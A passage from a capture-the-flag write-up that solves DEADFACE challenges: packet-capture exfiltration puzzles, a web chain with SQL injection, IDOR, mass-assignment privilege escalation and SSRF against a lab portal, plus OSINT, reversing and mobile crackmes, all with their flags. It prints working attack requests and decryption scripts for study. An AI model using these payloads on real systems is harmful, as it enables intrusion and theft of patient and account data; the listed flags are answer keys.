
*NFS export mounted anonymously; nmap/showmount recon.*


*Admin cookie replayed over a raw WebSocket → flag.*

### Speak Friend and Enter (BROWER blog) — `deadface{we-411-h4v3-the-s4me-1nt3rnet-d0-w3-n0t}` ✅
**Target:** gh0st404's blog `speakfriend.dctf.io` (name = the Doors-of-Durin riddle *"speak, friend, and enter"*).

**The User-Agent gate.** The blog serves different content by User-Agent — confirmed by a `Vary: User-Agent` response header and a CSS comment `/* channel banner (Sunstalker UA only) */`. The crew's custom browser is `SunstalkerDFBrower` (from the "done with firefox, we're making our own" forum thread). Presenting its exact UA unlocks a hidden "DEADFACE eyes only" version where each recipe post is replaced by operation notes (De Monne, Nightvale U, Aurora, TGRI):

```bash
curl -A "SunstalkerDFBrower/2.0 (Linux; Android 14)" \
     https://speakfriend.dctf.io/post/tgri-innovation-summit-recap
# hidden TGRI post ends with:  pilotnoi{7p-ied-lf6h-6ti-3f0r-dr4e50qx-ob-ag-z44}
```

**The cipher — base-36 Vigenère, key `mellon`.** Aligning the encrypted prefix `pilotnoi` against the expected `deadface` yields the key **`mellon`** (Elvish for "friend"). The alphabet is 36 symbols (`a–z` then `0–9`), so digits shift too; the key advances only on letters and digits, not on `-` or the braces. Decoded text ≈ "we all have the same internet, do we not" — matching the hidden page's tagline.

> 🚩 **Flag:** `deadface{we-411-h4v3-the-s4me-1nt3rnet-d0-w3-n0t}`

### Bad Guys Be Bad — DNS Exfil, 350 pts

**Evidence:** `deadface_pcap02.pcap`. Packet 367 (`45.13.37.7:8080`, base64 UA) → `GET /staging.bin` leaks a config (`xor_key=Sp00ky`, `target=exfil.deadface-c2.net`).

```bash
echo "bmljZSB0cnkgLSB3cm9uZyB0aHJlYWQsIGtlZXAgZGlnZ2luZw==" | base64 -d   # nice try - wrong thread
tshark -r deadface_pcap02.pcap -Y 'dns.qry.name contains "exfil.deadface-c2.net"' \
  -T fields -e dns.qry.name
```

```python
import base64
chunks = ["G4KVCVANDAYB","KS2TLETCOASR","KYGRAMBPKJKT","IGZGANBVSBI6","FY"]
combined = "".join(chunks)
raw = base64.b32decode(combined + "=" * ((8 - len(combined) % 8) % 8))
key = b"Sp00ky"
print(bytes(b ^ key[i % len(key)] for i, b in enumerate(raw)))   # deadface{...}
```

> Reassemble the full Base32 string across all labels **before** decoding — labels split only because of the 63-char DNS limit.

> 🚩 **Flag format:** printed by the decode script above.

### Don't Leave Me Hanging — SIP/SRTP/DTMF, 500 pts

**File:** `DontLeaveMeHanging.pcap` · **Flag:** `deadface{Pr355_0n3_f0r_D34df4c3}`

**Chain:** attacker FTP's a PBX diag bundle → it leaks an `SSLKEYLOGFILE` → decrypt SIP-over-TLS → recover per-call SRTP keys from the SDP → decrypt audio → demodulate inband DTMF → digits are ASCII.

```bash
tshark -r DontLeaveMeHanging.pcap -q -z io,phs          # 46 MB udp/data, ftp branch, sip-over-tls
tshark -r DontLeaveMeHanging.pcap -Y "ftp" -T fields -e ftp.request.command -e ftp.request.arg -e ftp.response.code
```

```text
USER mkowalski
PASS Aur0ra!Helpdesk25   -> 530 Login incorrect
PASS Aur0ra!Helpdesk26   -> 230 Login successful
RETR pbx-diag-20261008.tar.gz
```

```bash
tshark -r DontLeaveMeHanging.pcap --export-objects ftp-data,ftp_objects
tar -xzf ftp_objects/pbx-diag-20261008.tar.gz -C ftp_objects/extracted
cat ftp_objects/extracted/pbx-diag-20261008/pjsip_endpoints.txt     # ext 2003 = dtmf_mode: inband
cp ftp_objects/extracted/pbx-diag-20261008/tls-keys.log .
tshark -r DontLeaveMeHanging.pcap -o "tls.keylog_file:tls-keys.log" -Y "frame.number==35717" -V
```

```text
INVITE SDP: a=crypto:1 AES_CM_128_HMAC_SHA1_80 inline:AKW6eFZbsk63+ol0SpySP++00zVAD/+tZmbxUeaF
200 OK SDP: a=crypto:1 AES_CM_128_HMAC_SHA1_80 inline:na+zObEQyfML2br0bJJym6vMYT2FBYpsr80VdpDe
```

> SDES is unidirectional: INVITE key = Asterisk→ext, 200 OK key = ext→Asterisk. Mixing them = noise. Zero HMAC failures from `session.unprotect()` = correct key/direction.

```python
import base64, audioop, wave, pylibsrtp
from scapy.all import rdpcap, UDP, IP
pkts = rdpcap("DontLeaveMeHanging.pcap")
def decrypt_leg(k, src, sp, dst, dp):
    pol = pylibsrtp.Policy(key=base64.b64decode(k),
        ssrc_type=pylibsrtp.Policy.SSRC_ANY_INBOUND,
        srtp_profile=pylibsrtp.Policy.SRTP_PROFILE_AES128_CM_SHA1_80)
    pol.window_size=1024; pol.allow_repeat_tx=True
    s=pylibsrtp.Session(policy=pol); out=[]
    for p in pkts:
        if p.haslayer(UDP) and p.haslayer(IP) and p[IP].src==src and p[UDP].sport==sp and p[UDP].dport==dp:
            d=bytes(p[UDP].payload)
            if len(d)<22: continue
            try: out.append((int.from_bytes(d[2:4],"big"), s.unprotect(d)[12:]))
            except Exception: pass
    out.sort(); return b"".join(x for _,x in out)
ulaw = decrypt_leg("6Kfv2L8Ox5SyjPMENXNamcCD2CQ3bu4OoGK/G8t2","10.20.200.5",14740,"10.20.200.23",7078)
with wave.open("call5.wav","wb") as w:
    w.setnchannels(1); w.setsampwidth(2); w.setframerate(8000); w.writeframes(audioop.ulaw2lin(ulaw,2))
```

```bash
multimon-ng -t wav -a DTMF -q call5.wav
# 100101097100102097099101123080114051053053095048110051095102048114095068051052100102052099051125
```

```python
d="100101097100102097099101123080114051053053095048110051095102048114095068051052100102052099051125"
print("".join(chr(int(d[i:i+3])) for i in range(0,len(d),3)))   # deadface{Pr355_0n3_f0r_D34df4c3}
```

**Verification:** DTMF 96 digits → `deadface{Pr355_0n3_f0r_D34df4c3}` (mapped digit-by-digit, re-checked).

> 🚩 **Flag:** `deadface{Pr355_0n3_f0r_D34df4c3}`

### Data Go Brrrrr — ICMP exfiltration, 25 pts

**Prompt:** data leaving the network over a small traffic segment. Anomaly: ICMP echo requests to external `10.10.14.7`, 46–50 B, custom id `0x0539` (= 1337), 8 payload bytes each, no data replies.

```bash
tshark -r PCAP01.pcap -Y 'icmp.type==8 && ip.dst==10.10.14.7' \
  -T fields -e data.data | tr -d '\n' | xxd -r -p | base64 -d; echo
# e.g. 5a4756685a475a68 -> ZGVhZGZh -> deadfa... -> full deadface{...}
```

**Verification:** ICMP id `0x0539 = 1337` (re-checked, matches hex/decimal conversion).

> 🚩 **Flag format:** printed by the command above.

---

## Part IX — Web: Health Spark Employer Portal

**Target:** `http://45.79.200.170:3000`. A 4-part chain on one app. The homepage inline JS leaks the whole attack surface in comments (SQLi disclosure via HTTP 200 + no token; `departmentid` echoed to `/api/patients`; an admin-only SSRF tool). Backend is SQLite + JWT (HS256). `U=http://45.79.200.170:3000` below. (These four also appeared on the scoreboard as **Doctor Appointment** and **Real Pain in the Prostate** for the first two.)

### Classic SQLi login — `deadface{typical_and_classic}` ✅

`/api/login` is injectable in `username`. Authentication itself is parameterized (so you can't mint a token), but a debug disclosure branch leaks `rows[0]` as JSON whenever the query returns >1 row:

```bash
curl -s -X POST $U/api/login -H 'Content-Type: application/json' \
  -d '{"username":"x'"'"' OR 1=1-- -","password":"x"}'
# {"message":"Login failed...","username":"john.smith","name":"John Smith","role":"user",
#  "departmentid":10685,"password":"Locked_In_And_Ready","flag":"deadface{typical_and_classic}"}
```

Enumeration notes (used by later parts): DB is SQLite; real schema `users(id, username, name, password, role, departmentid)`; `UNION SELECT *` works; stacked queries are blocked; all 5 users are `role:user`. Walk the table with `x' OR username NOT IN ('john.smith',…)-- -` (reveals e.g. `maria.holloway → departmentid 18432`).

> 🚩 **Flag:** `deadface{typical_and_classic}`


*Burp Repeater: SQLi login bypass against Health Spark returns the flag directly.*

### Patient IDOR (BOLA) — `deadface{hipaa_exposure_is_bad}` ✅

Log in for real to get a JWT (`role:user`, `departmentid:10685`). The dashboard loads records via `POST /api/patients` with a **body** `departmentid` — and the server trusts the body rather than the token's department (broken object-level authorization):

```bash
TOK=$(curl -s -X POST $U/api/login -H 'Content-Type: application/json' \
       -d '{"username":"john.smith","password":"Locked_In_And_Ready"}' | jq -r .token)
curl -s -X POST $U/api/patients -H "Authorization: Bearer $TOK" -H 'Content-Type: application/json' \
  -d '{"departmentid":18432,"FirstNameFilter":"","LastNameFilter":"","take":null,"skip":0}' | python3 -m json.tool
```

Department **18432** (found via the login SQLi enumeration — not brute force, since nearby IDs are empty and the endpoint is rate-limited) contains record "Patient Zero" (HS-8820343) whose diagnosis field is the flag. (Bonus: a recon comment `deadface{web01_dashboard_recon}` sits in the dashboard HTML.)

> 🚩 **Flag:** `deadface{hipaa_exposure_is_bad}`


*Decoded JWT: role=user, departmentid=10685.*


*Swapping departmentid returns "Patient Zero" and the flag.*

### Do People Still Fax in 2026? — `deadface{someone_should_report_this}` ✅

A patient record references "see document #1009." No obvious document route exists, but the app exposes a hidden Swagger at `/api-docs` (spec inlined in `/api-docs/swagger-ui-init.js`), revealing an undisplayed endpoint:

```
POST /file_document?id=<N>   body {"departmentid":<D>}   "Download a member document (PDF)"
GET  /api/department_id       -> ["10685","18432"]
```

`/file_document` only checks that the body `departmentid` matches the document's owning department — never that the document is *yours* → IDOR across departments. Doc #1009 is in John's own dept (10685), so the one that "doesn't belong to you" is in dept 18432:

```bash
curl -s -X POST "$U/file_document?id=1020" -H "Authorization: Bearer $TOK" \
  -H 'Content-Type: application/json' -d '{"departmentid":18432}' -o 1020.pdf
pdftotext 1020.pdf - | grep -i deadface
# deadface{someone_should_report_this}
```

> 🚩 **Flag:** `deadface{someone_should_report_this}`

### Become an Admin → SSRF — `deadface{oh_you_shouldnt_be_here}` ✅

The admin-only SSRF tool `/api/admin/fetch-photo` strictly requires `role:admin` in a *validly signed* JWT (the HS256 secret is not in rockyou, and `alg:none`/payload-tampering are rejected). The intended privesc is **mass assignment** on `POST /api/profile`, which re-signs a fresh JWT from whatever fields you submit:

```bash
ADMIN=$(curl -s -X POST $U/api/profile -H "Authorization: Bearer $TOK" \
         -H 'Content-Type: application/json' -d '{"role":"admin"}' | jq -r .token)
curl -s -X POST $U/api/admin/fetch-photo -H "Authorization: Bearer $ADMIN" \
  -H 'Content-Type: application/json' -d '{"url":"http://localhost:8080/"}'
# -> HealthSpark Internal Admin Console :  admin_console_token: deadface{oh_you_shouldnt_be_here}
```

SSRF allowlist = `localhost`/`127.0.0.1`/`169.254.169.254`; the internal console runs on **8080** (the "OSINT port"). The `169.254.169.254` cloud-metadata "reporting service" is a decoy.

> 🚩 **Flag:** `deadface{oh_you_shouldnt_be_here}`

---

## Part X — OSINT / Web: GhostTown extras

These three are not covered in the Health Spark or PCAP chains above — they're separate GhostTown-sourced leads.

### Chatty Cathy — 15 pts
*RP-01? · OSINT · WEB — by @RP-01?*

"A DEADFACE member writes a travel blog under the pseudonym 'Alice'." A GhostTown post from `lamia415` links her travel blog directly: `https://170.187.156.131:8443/`. The site's own `robots.txt` both points at a hidden path and leaves the flag sitting in the file itself:

```
$ curl -sk https://170.187.156.131:8443/robots.txt
User-agent: *
Disallow: /secret_members
# deadface{y0u_m3ddling_k!ds}
```

> 🚩 **Flag:** `deadface{y0u_m3ddling_k!ds}`


*lamia415 posts her blog link on GhostTown.*


*robots.txt on that host — flag included.*

### Car Crash — 50 pts
*RP-01? · OSINT — by @RP-01?*

A leaked photo of a commercial truck involved in an accident. Identifying the carrier from the livery/DOT number via a public "Search DOT Records" lookup tool, then confirming on Wikipedia:

> 🚩 **Flag:** `deadface{08_10_1961}`


*Public DOT-record search by carrier/MC number.*


*J.B. Hunt Transport Services, Inc. — founded Aug 10, 1961.*

### Alice and Bob Would Like a Word — 75 pts
*CYBORGSWORD · OSINT — by @Cyb0rgSw0rd*

"Why would you just leave your keys out in the open like that?" Chat (b1tfr34k / deephax) debates a public SSH key sitting in a public repository, and whether it could be cross-referenced against public license-plate cameras. GitHub serves any user's public keys at `github.com/<user>.keys` with no auth at all:

```bash
curl https://github.com/fr34ked0ut.keys
```

One of the returned keys is far longer than a normal ed25519/RSA key, which is the strongest lead for hidden data smuggled into the key blob (a vanity/stuffed key). This challenge uses a non-standard flag format — `Z` in place of `{` and `Y` in place of `}`.

> 🚩 **Status:** Solved — flag submitted directly in CTFd; not recorded in these notes.


*github.com/fr34ked0ut.keys — one RSA key is abnormally long.*

---

## Part XI — Reversing

Author: **@TheZeal0t**. A "spooky cereal" theme runs through the series.

### Cereal Killer 01 (`re01-lin-x86.bin`) — `deadface{You-Vill-Eat-Ze-Bugz-Und-You-Vill-Be-Happy!!!}` ✅

32-bit ELF, not stripped. Symbols expose the crypto chain SHA1 + RC4 + a custom `base64_decode`.

**Logic (`main`):** read password → `SHA1(password)` → hex → `strcmp` vs a stored hash; on match, `base64_decode` a ciphertext and `RC4`-decrypt it using the password itself as the key.

**Steps:**
1. `base64_decode` indexes a custom 64-char alphabet (`base64_UTF16` table @0x4920): `ZKj9n+yf0wDVX1s/5YbdxSo=ILaUpPBCHg8uvNO4klm6iJGhQ7eFrWczAMEq3RTt`.
2. Decode `ENCODED_HASH` → `68158678a3f9d76a3d1ca12d20b2d6af9bd3f290`.
3. Crack that SHA1 against cereal names → **`cookiecrisp`** (Cookie Crisp).
4. RC4-decrypt the ciphertext with key `cookiecrisp` → URL `https://cerealkiller.lyttonlabs.org/unwanted-guests/ick.png` (verified by running the binary: "Access granted"). The flag is printed on that image.

> 🚩 **Flag:** `deadface{You-Vill-Eat-Ze-Bugz-Und-You-Vill-Be-Happy!!!}`

### Cereal Killer 02 (`re03-ck02.7z` → `re03-lin-x86.bin`) — `deadface{N0rdics-R3ally-like-Frank3nb3rry-cuz-bro-is-tall-like-they-are!}` ✅

Archive password **`KlippyAI`** (7z AES, 2^19 iters — not feasible to crack on CPU; it was supplied rather than brute-forced). Extracted only the Linux binary; left the joke-malware `KlippyAI-trained-on-CK02.exe` unrun.

**Logic (`main`, 32-bit ELF, not stripped):** copies a 256-byte ciphertext and a 256-byte key, computes `PLAIN[i] = CIPHER[i] ^ KEY[i]`, then searches for the marker `badf00d` (via `memmem`). Marker present → correct key → print flag.

**The twist:** XORing the stored key as-is yields garbage — the key is deliberately "tampered." The hint "TIME is REVERSIBLE, but the KEY is NOT… Go Back! GO BACK!!!" means reverse the key order:

```python
PLAIN[i] = CIPHER[i] ^ KEY[255 - i]
```

That decrypts to an ASCII-art box of hex "magic words" (`feedface deadbeef deadface{…} badf00d da7e4107`). The note "no spaces/periods/asterisks in the flag" tells you those chars are box decoration — strip them and the `deadface{…}` reads out. Cereal = **Franken Berry** (the 7-ft "Nordics," i.e. Frankenstein-tall).

> 🚩 **Flag:** `deadface{N0rdics-R3ally-like-Frank3nb3rry-cuz-bro-is-tall-like-they-are!}`

### Spooky Cereals / the Greys (`re05.exe`, .NET) — `deadface{Before_Consenting_to_Med_Exam_Ascertain_Destination_of_Finger!}` ✅

A .NET loader whose `.sdata` holds a DLL XOR-encrypted with the 2-byte key `A3`. Decrypt → `DLLPayload.dll` (`MyNamespace.MyClass.Run`). Reading the IL:

1. Compute `MD5(input)` and compare to hardcoded `7730e6666bec3dc346c105bd2012a813`; crack against rockyou → **`booberry`** (Boo Berry — the Greys' favourite cereal).
2. **Trick:** the MD5 is checked on the raw input, but the AES password actually used is `input.Trim() + input.Trim()` → **`booberrybooberry`**.
3. Decrypt the 80-byte `encryptedFlag`: AES-256-CBC, key = `PBKDF2-HMAC-SHA1("booberrybooberry", salt, 1000)[:32]`, where salt = IV = `"thegreysarecomin"`.

(`deadface{I-For-One-Welcome-Our-New-Buggy-Overlords}` in the prompt is a stated decoy.)

> 🚩 **Flag:** `deadface{Before_Consenting_to_Med_Exam_Ascertain_Destination_of_Finger!}`

### re02 crackme (`re02.bin`) — `deadface{x0r_1s_not_encryption}` ✅

64-bit ELF, not stripped. Two embedded blobs `pw_enc` and `flag_enc`. Fully static solve:

1. **Password:** input must be 10 chars; each byte XORed with `0x42` is compared to `pw_enc` = `31 37 2c 31 2a 2b 2c 27 76 70` → `pw_enc ^ 0x42` = **`sunshine42`**.
2. **Flag:** `flag[j] = flag_enc[j] ^ password[j % 10]` (31-byte repeating-key XOR) → `deadface{x0r_1s_not_encryption}`.

> 🚩 **Flag:** `deadface{x0r_1s_not_encryption}`

### Keypad Oracle (iOS `.app`) — `deadface{your-pin-is-valid}` ✅

SwiftUI app; logic in `Keypad-Oracle.debug.dylib`; `KeypadConfig.json` maps each digit 0–9 to a 27-byte seed. Reversed with radare2 + Ghidra headless:

- `ViewModel.pressDigit` appends the digit and recomputes `encodedOutput = encode(enteredDigits)`.
- `PinCipherEngine.encode(pin)` requires `pin.count == 4` and all digits unique (builds a `Set`, checks `set.count == pin.count`), then:
  ```
  out = [0]*27
  for i, d in enumerate(pin):  out ^= derive(seedTable[d], d, i)
  out ^= binarySalt            # 28-byte constant baked into the binary
  return out.toHexString()
  ```
- `derive(seed,digit,pos)[j] = rotl8( seed[j] ^ ((pos+1)*33) ^ (digit*19) ^ (j*7), (j+digit+pos)&7 ) ^ (j+digit+pos*11)` (all mod 256).
- `binarySalt = 3a 91 44 2f d0 18 6b c3 72 0e a9 5d 11 be 80 27 f4 66 39 9a 05 cc 70 1b 88 42 e1 53`.

Reimplement and brute all **10·9·8·7 = 5040** distinct 4-digit pins; exactly one yields printable ASCII — PIN **(3, 7, 1, 9)** → `deadface{your-pin-is-valid}` (27 bytes, matching `outputLength`).

> 🚩 **Flag:** `deadface{your-pin-is-valid}`

---

## Part XII — Mobile

### Mobile intro (`app-release.apk`) — `deadface{ez-mobile-to-start}` ✅

Decompiled with jadx. The password dialog is a red herring — `lambda$showLockedNoteDialog$3` just shows an "Access denied" toast and never checks input. The flag is hardcoded client-side (the in-app note even warns "Do not store secrets in client-side code") in an unused method:

```java
private String getSecureBackupText() {
    byte[] b = Base64.decode("ZGVhZGZhY2V7ZXotbW9iaWxlLXRvLXN0YXJ0fQ==", 0);
    return new String(b, StandardCharsets.UTF_8);
}
```
```bash
echo "ZGVhZGZhY2V7ZXotbW9iaWxlLXRvLXN0YXJ0fQ==" | base64 -d   # deadface{ez-mobile-to-start}
```

> 🚩 **Flag:** `deadface{ez-mobile-to-start}`

### Aurora Patient Portal (iOS) — Info Leaks — `deadface{mara-voss-1988-04-17}` ✅

